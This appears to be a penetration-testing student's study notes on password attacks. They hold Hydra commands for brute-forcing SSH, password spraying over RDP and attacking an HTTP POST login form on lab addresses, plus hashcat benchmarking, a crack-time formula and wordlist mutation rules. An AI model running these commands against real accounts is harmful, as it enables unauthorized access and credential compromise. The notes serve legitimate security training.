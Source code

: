 [[Notes/Password Attacks|Password Attacks]]

# Attacking Network Service Logins
## SSH and RDP logins
### THC-Hydra
TAGS: #hydra #password-cracking #dictionary-attack #ssh #rdp
```shell
# unzip if it wasn't already
sudo gzip -d rockyou.txt.gz

# simple hydra command
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
```
#### Password Spraying
```shell
# password sparying with a list of usernames
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```
## HTTP POST login forms
```shell
# put things in place after we have intercepted with burp (could utilize burp's intruder?)
# hydra -l ^username^ -P ^password list path^ ^host^ http-post-form "location:var1=^username^:var2=^PASS^:^login_failed_text^"
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```

# Password Cracking
```shell
echo -n "secret" | sha256sum #-n for eliminating new line

# wordcount
echo -n "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789" | wc -c

# hashcat benchmaerk
hashcat -b
# OR
hashcat.exe -b

# calculate
(($word_count^$password_length)/$hash_rate*100000) = $seconds
```

## Wordlist mutation
```shell
# remove lines start with "1", -i instantanious /^1 start with "1", /d delete
sed -i '/^1/d' wordlist.txt

# rule file to append "1" to the end of each line
echo \$1 > rule.rule

# hashcat in debugging mode with -r for rule sets
hashcat -r demo.rule --stdout wordlist.txt

# capitalize the first letter and add "1" at the end of line
cat rule1.rule
$1 c

# same as above, but it will do the jobs separately
cat rule2.rule
$1
c

# premade rule files for hashcat
ls -la /usr/share/hashcat/rules/

```

# Working with Hashes

